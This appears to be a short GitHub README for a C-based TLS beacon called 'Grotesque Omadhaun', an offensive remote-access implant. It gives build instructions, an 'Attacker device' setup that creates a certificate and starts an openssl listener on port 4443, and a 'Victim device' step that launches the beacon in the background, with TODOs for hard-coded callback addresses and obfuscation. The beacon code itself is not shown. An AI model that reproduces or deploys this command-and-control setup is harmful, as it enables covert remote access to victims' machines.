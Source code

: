 <h1>Grotesque Omadhaun</h1>
C based beacon that makes use of TLS. Should be simple enough to throw into... most places.

<p>TODO: Show all output Formatting<br>
      Scheduling in<br>
      Option to hard code IP/Port into build process<br>
      Maybe do some obfuscation<br>
</p>
Usage: 

```gcc ./beacon.c beacon -lssl -lcrypto```

Attacker device: <br>```openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes``` <br>
```openssl s_server -accept 4443 -cert cert.pem -key key.pem```

Victim device: <br>```chmod -x ./beacon; ./beacon &```
